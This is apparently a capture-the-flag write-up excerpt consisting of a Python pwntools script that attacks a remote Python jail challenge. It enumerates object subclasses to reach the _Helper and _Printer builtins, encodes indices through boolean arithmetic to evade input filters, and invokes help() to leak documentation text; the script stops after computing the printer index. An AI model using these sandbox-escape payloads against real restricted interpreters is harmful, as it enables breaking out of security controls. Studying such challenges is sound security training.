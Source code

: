 Fully automated attack script to generate the indices:

```python
from pwn import *

context(log_level="debug")

p = remote("0.cloud.chals.io", 33618)
p.recvuntil(b">> ")
p.sendline(b"().__class__.__base__.__subclasses__()")
res = p.recvline().decode()

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>")
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>")
print("Helper", helper_index)
print("Printer", printer_index)

# A is 10, B is 100


def get_index(index):
    if index % 10 <= 5:
        parts = (
            ["True"] * (index % 10)
            + ["A"] * (index // 10 % 10)
            + ["B"] * (index // 100 % 10)
        )
        return "+".join(parts)
    else:
        parts = ["A"] * (index // 10 % 10 + 1) + ["B"] * (
            index // 100 % 10
        )
        return "+".join(parts) + "-" + "-".join(["True"] * (10 - index % 10))


# H for index of helper
helper = get_index(helper_index)
print(helper)

p.recvuntil(b">> ")
p.sendline(
    b"[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,H:="
    + helper.encode()
    + b",().__class__.__base__.__subclasses__()[H]()()]"
)
p.recvuntil(b"help> ")
p.sendline(b"code")
p.recvuntil(b"help> ")
p.sendline(b"quit")

# find help text of helper
p.recvuntil(b">> ")
p.sendline(
    b"[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,H:="
    + helper.encode()
    + b",S:=().__class__.__base__.__subclasses__()[H].__doc__]"
)
help_text = eval(p.recvline().decode())[-1]

# P for index of printer

printer = get_index(printer_index)
print(printer)

```